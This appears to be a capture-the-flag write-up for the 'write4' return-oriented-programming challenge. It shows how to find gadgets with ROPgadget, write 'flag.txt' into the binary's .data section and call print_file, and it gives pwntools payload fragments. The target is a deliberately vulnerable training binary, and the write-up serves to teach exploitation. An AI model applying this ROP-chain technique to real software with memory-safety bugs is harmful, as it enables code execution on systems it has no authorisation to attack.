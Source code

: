 # write4

In this problem, there is a function in shared library named print_file, which will open the file with its argument. The problem here is that this argument, for example "flag.txt" is too long to store in a x86_64 register. Therefore, we need to find some space to store the argument for calling print_file.

First, check the security of the binary:
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial

```
Store the argument in stack is impossible because the ASLR in linux, which will make stack, heap address unknown to us.

A straightfoward solution is to store the argument in the data section of the ELF file, then make the print_file to get argument from that address.

Since PIE is disabled, data section address is known for us.   

We can use readelf command to find the address of the data section.
```
...
.data = 0x601028 (dataSect)
...
```
Then, we need to find some rop to help us store the string "flag.txt" to the data section. We can find a gadget with two pop operations pop r1, pop r2, which means that these two registor can be controled by us. Secondly, we need to find a mov operation with the format like mov ptr[r1] [r2], so we can move the value in register r2 to the place we want to store.

Use ROPgadget to find possible gadgets.
```
ROPgadget --binary write4
```
We find two suitable gadgets.
```
...
0x0000000000400690 : pop r14 ; pop r15 ; ret (gadget1)
0x0000000000400628 : mov qword ptr [r14], r15 ; ret (gadget2)
...
```
Firstly, we need to pop the address of data section and string "flag.txt" into r14, r15 by using gadget #pop r14 ; pop r15 ; ret, and then use gadget #mov qword ptr [r14], r15 ; ret to move the string value to the data section.

Next, using ghidra, we know that print_file function obtain argument from rdi register. Therefore, we store the address of data section to rdi using another gadget.

We find a gagdet we need.
```
...
0x0000000000400693 : pop rdi ; ret (gadget3)
...
```
Finally, we can jump to the print_file function address, same as previous problem, we can find print_file address from plt table.
```
peda$ plt
Breakpoint 1 at 0x400510 (print_file@plt)
Breakpoint 2 at 0x400500 (pwnme@plt)
```
Now, we can build our payload, same as problem before, there is a 32 bytes buffer, and 8 bytes rbp.
```
'A'*40
```
Pop the address of data section and string "flag.txt" into r14, r15, and move the string to data section.
```
p64(gadget1) + p64(dataSect) + b"flag.txt" + p64(gadget2)
```
Store the address of data section to register rdi.
```
payload += p64(gadget3) + p64(dataSect)
```
Jump to print_file function.
```
p64(print_file@plt)
```
Write exploit.py using pwntools, and we obtain the flag:
```
ROPE{a_placeholder_32byte_flag!}
```
